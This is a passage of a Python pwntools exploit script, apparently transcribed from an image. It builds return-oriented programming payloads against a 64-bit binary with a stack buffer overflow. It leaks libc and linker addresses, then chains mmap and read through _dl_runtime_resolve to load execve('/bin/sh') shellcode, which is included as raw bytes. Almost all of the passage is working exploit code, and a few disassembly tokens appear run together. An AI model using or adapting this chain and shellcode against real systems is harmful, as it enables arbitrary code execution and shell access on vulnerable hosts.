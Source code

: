 ```
off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
print "off_mmap_addr: " + hex(off_mmap_addr)
off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)   
p.recvuntil("Hello, World\n")   
print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)    
write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
mmap_addr = write_addr - off_mmap_addr
print "mmap_addr: " + hex(mmap_addr)
pop_rax_ret = write_addr - off_pop_rax_ret
print "pop_rax_ret: " + hex(pop_rax_ret)    
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)   
p.recvuntil("Hello, World\n")   
print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)    
linker_addr = u64(p.recv(8))
print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  
p.recvuntil("Hello, World\n")   
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
	"\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
	"\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  
#   GADGET
#   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
#   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
#   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
#   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
#   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
#   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
#   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
#   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
#   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
#   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11 
shellcode_addr = 0xbeef0000 
#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 
#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  
```